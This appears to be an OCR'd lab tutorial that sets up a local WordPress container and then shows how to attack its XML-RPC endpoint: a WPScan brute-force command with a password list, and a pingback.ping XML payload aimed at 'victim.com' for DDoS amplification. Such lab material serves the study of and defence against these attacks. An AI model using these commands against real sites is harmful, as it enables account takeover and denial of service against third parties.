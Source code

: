 Start the containers:

```sh
docker-compose up -d
```

Once running, access **http://localhost:8080** to set up WordPress.

---

### **Step 3: Enable XML-RPC**
WordPress enables XML-RPC by default, but to verify:

1. Login to WordPress Admin (`http://localhost:8080/wp-admin`)
2. Go to **Settings → Writing**
3. Ensure **"Enable XML-RPC"** is turned **ON**.

---

### **Step 4: Check if XML-RPC is Enabled**
Run:

```sh
curl -X POST http://localhost:8080/xmlrpc.php -d '<methodCall><methodName>system.listMethods</methodName></methodCall>'
```

If enabled, it will return a list of available methods.

---

## ** Exploiting XML-RPC**
### **1️) Brute Force Attack**
Using **WPScan** to brute-force credentials via XML-RPC:

```sh
wpscan --url http://localhost:8080 --usernames admin --passwords rockyou.txt --xmlrpc
```

---

### **2️) DDoS Amplification Attack**
Run this with **Burp Suite or Python** to abuse `pingback.ping`:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value><string>http://victim.com</string></value>
    </param>
    <param>
      <value><string>http://localhost:8080</string></value>
    </param>
  </params>
</methodCall>
```
